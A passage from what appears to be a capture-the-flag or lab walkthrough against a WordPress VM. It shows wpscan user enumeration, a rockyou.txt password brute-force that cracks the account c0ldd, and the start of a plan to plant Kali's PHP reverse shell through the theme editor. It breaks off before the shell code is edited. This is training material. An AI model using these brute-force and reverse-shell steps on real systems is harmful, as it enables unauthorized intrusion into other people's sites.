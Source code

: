```
 | Confirmed By: Login Error Messages (Aggressive Detection)
 ...
 [+] Finished: Wed Nov  3 21:28:28 2021
[+] Requests Done: 23275
[+] Cached Requests: 17
[+] Data Sent: 5.944 MB
[+] Data Received: 3.489 MB
[+] Memory used: 315.48 MB
[+] Elapsed time: 00:00:53
```

It looks like we were able to find a few users: `the cold in person`, `hugo`, `c0ldd`, and `philip`. Armed with this, we can try to brute-force a login on the `wp-login.php` page.

```
❯ wpscan --url http://192.168.0.20 --usernames c0ldd,"the cold in person",hugo,philip --passwords /usr/share/wordlists/rockyou.txt
...
[+] Performing password attack on Wp Login against 4 user/s
[SUCCESS] - c0ldd / 9876543210    
Trying hugo / 292929 Time: 00:01:35 <                                                             > (8000 / 57378791)  0.01%  ETA: ??:??:??
```

Very quickly, we get a hit for `c0ldd`, showing his password to be `9876543210`. We will continue to let the brute-force to run, just in case we are able to get another account. In the mean time, we can go ahead and try to log into `wordpress`.

![image](img/wordpress 2.jpg)

We were able to successfully log in to the `wordpress` dashboard. From here, we can check if we are able to edit the `wordpress` theme. If we are able to, we can upload a `reverse shell` to gain access to the system.

## User

At the dashboard, we use the navagation bar on the left to open up the theme editor. From here, we can select a `php` page to edit. If it successfully saves, then we can browse to the theme's page. This should allow us to gain a `remote shell` if successful.

![image](img/wordpress 2.jpg)

Our plan is to upload a `php` `reverse shell` to replace one of the theme's pages. On a `Kali` system, we can find the template for the `reverse shell` by using the `locate` command, then we can `cp` it to our `home` directory for editing.

```
❯ locate php | grep reverse
/usr/share/webshells/php/php-reverse-shell.php
❯ cp /usr/share/webshells/php/php-reverse-shell.php .
```

And we will need to change the following lines to reflect where our `nc` listener will be.
